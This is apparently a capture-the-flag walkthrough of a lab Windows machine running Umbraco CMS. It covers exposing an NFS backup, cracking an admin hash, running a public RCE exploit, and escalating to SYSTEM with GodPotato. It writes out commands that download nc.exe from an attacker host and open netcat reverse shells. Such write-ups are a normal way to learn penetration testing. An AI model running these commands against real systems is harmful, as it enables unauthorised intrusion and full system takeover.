- Machine Name: Remote
- OS Type: Windows
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```php
# Nmap 7.95 scan initiated Sun May  4 00:24:29 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.10.180
Nmap scan report for 10.10.10.180
Host is up, received reset ttl 127 (0.33s latency).
Scanned at 2025-05-04 00:24:30 EDT for 363s
Not shown: 65518 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
2049/tcp  open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: 59m53s
| smb2-time: 
|   date: 2025-05-04T05:27:10
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 45222/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 43655/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 15893/udp): CLEAN (Timeout)
|   Check 4 (port 59691/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  4 00:30:33 2025 -- 1 IP address (1 host up) scanned in 364.72 seconds

```

## Enumeration

### Port 80/HTTP

i’ll start my enumeration from port 80, let’s visit the website



let’s check what web technology is used in website using `whatweb` 

```php
whatweb http://10.10.10.180
```



visiting the website and walking through it i found the contact page 



the information says that *Umbraco Forms is required to render this [form.It](http://form.it/)'s a breeze to install, all you have to do is go to the Umbraco Forms section in the back office and click Install, that's it! :)* 

and clicking on **Go to Back office and Install forms** button redirect us to umbarco login form



nothing interesting here, but we’ll keep this information in our back-pocket and then move to another port

### Port 21/FTP

let’s check if FTP allows anonymous login

```php
ftp 10.10.10.180
```



let’s check if we have permissions to upload files using `put` command first i’ll create a blank file using `touch _0xh3x` 

and then use put command to upload file `put _0xh3x` 



nothing interesting here.

### Port 139,445/SMB

let’s check smb for null session/Anonymous login 

```php
smbclient -L //10.10.10.180 -N
```



### Port 2049/NFS

> *The Network File System (NFS) is a distributed file system protocol that allows a client to access files over a network as if those files were on the client’s local file system. NFS is often used in enterprise environments for file sharing and data access. NFS uses the Transmission Control Protocol (TCP) to provide reliable delivery of data over the network and typically runs on TCP port 2049, which is the default port for NFS over TCP.*
> 

let’s start our enumeration on NFS by using showmount command, we’ll see if any unauthorized or public share available on server

```php
showmount -e 10.10.10.180
```



- `-e` : display the list of remote file systems on the NFS server.

we can see that site_backups has the access for everyone, in simple terms it allows anonymous access, let’s mount it to our kali machine

```php
mkdir /tmp/_0xh3x && sudo mount 10.10.10.180:/site_backups /tmp/_0xh3x
```



it is the backup directory of the main site running port 80

i started enumerating the files for credentials but upon google search i found Umbraco doesn’t store password in config files

after poking around a bit i found Umbarco.sdf file in APP_DATA folder which plays role of database for the Ubmraco

i used strings command to find any useful information from it

```php
strings Umbraco.sdf| head -20
```



i found 2 interesting usernames admin and ssmith and after that the likely the hash for the user’s password

let’s try to crack hash using john

hash is → b8be16afba8c314ad33d812f22a04991b90e2aaa

```php
john admin.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



bingo! we got the password, let’s use this password to login to umbraco panel with credentials:

→ `admin@htb.local:baconandcheese`



clicking on Profile icon i found the version of Umbraco CMS



Quick google search reveals that it is vulnerable to RCE → https://www.exploit-db.com/exploits/49488

download the exploit and run it

```php
python3 49488.py -u 'admin@htb.local' -p baconandcheese -i http://10.10.10.180 -c 'whoami'
```



let’s get the shell 

i’ll transfer the nc.exe to target machine using IWR command and then get the shell

1. start the python3 http server 
2. run below command to download nc.exe to target machine in C:\Users\Public\nc.exe 

```php
python3 49488.py -u 'admin@htb.local' -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-Command iwr -uri http://10.10.14.17:80/nc.exe -outfile /users/public/nc.exe'
```

then start nc listener on port 443 `rlwrap -r nc -nvlp 443` 

execute nc.exe to get shell

```php
python3 49488.py -u 'admin@htb.local' -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-Command /users/public/nc.exe 10.10.14.17 443 -e cmd'
```



let’s check what permissions our user has using `whoami /priv` command



so we have the SeImpersonatePrivilege, let’s use GodPotato to exploit this and get SYSTEM shell

i’ll transfer the godpotato binary to target machine same way



run simple command whoami to check if we are running as system user

```php
god.exe -cmd whoami
```



great now let’s get proper Shell 

start the netcat listener on port 445

```php
god.exe -cmd "\users\public\nc.exe 10.10.14.17 445 -e cmd"
```



we got shell on port 445

